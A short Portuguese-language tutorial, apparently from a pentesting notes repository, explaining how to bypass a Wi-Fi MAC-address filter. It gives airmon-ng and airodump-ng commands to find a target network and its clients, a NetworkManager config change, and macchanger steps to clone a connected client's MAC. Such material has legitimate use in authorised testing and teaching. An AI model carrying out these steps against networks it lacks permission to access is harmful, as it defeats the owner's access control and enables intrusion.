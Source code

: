 ## Bypassando filtro de mac 

#### 1° passo:

Colocar a placa em monitor mode

 ``` airmon-ng start <interface> ```

#### 2° passo:

Sniffar as redes ao redor e identificar o alvo que possui o filtro de mac e identificar os clientes conectados 

 ``` airodump-ng <interface> ```
 
#### 3° passo: 

Antes de clonar o mac para realizar o ataque, em algumas distros linux é necessario fazer alteração no arquivo de config do Netwrk Manager para permitir que o mac clonado não seja alterado automaticamente...

O arquivo pode ser encontrado nesse path: ``` /etc/NetworkManager/NetworkManager.conf ```

No arquivo de config adicione as seguintes linhas:
 ```
 [device]
 wifi.scan-rand-mac-address=no
 
 [connection]
 ethernet.cloned-mac-address=preserve
 wifi.cloned-mac-address=preserve

 ```


#### 4° passo:

Para podermos realizar a alteração do mac a placa precisa estar desativada, então primeiro desativamos ela, trocamos o mac e depois ativamos a placa novamente.

 1 - ``` ifconfig <interface> down ```
 2 - ``` macchanger -m MACADDRCLONE <interface> ```
 3 - ``` ifconfig <interface> up ```
 
#### 5° passo 

Se conectar na rede com filtro para testar se funcionou a clonagem de mac...



#### NOTE:

Para voltar o mac original usamos o macchanger com a flag -p de permanent...

 1 - ``` ifconfig <interface> down ```
 2 - ``` macchanger -p <interface> ```
 3 - ``` ifconfig <interface> up ```
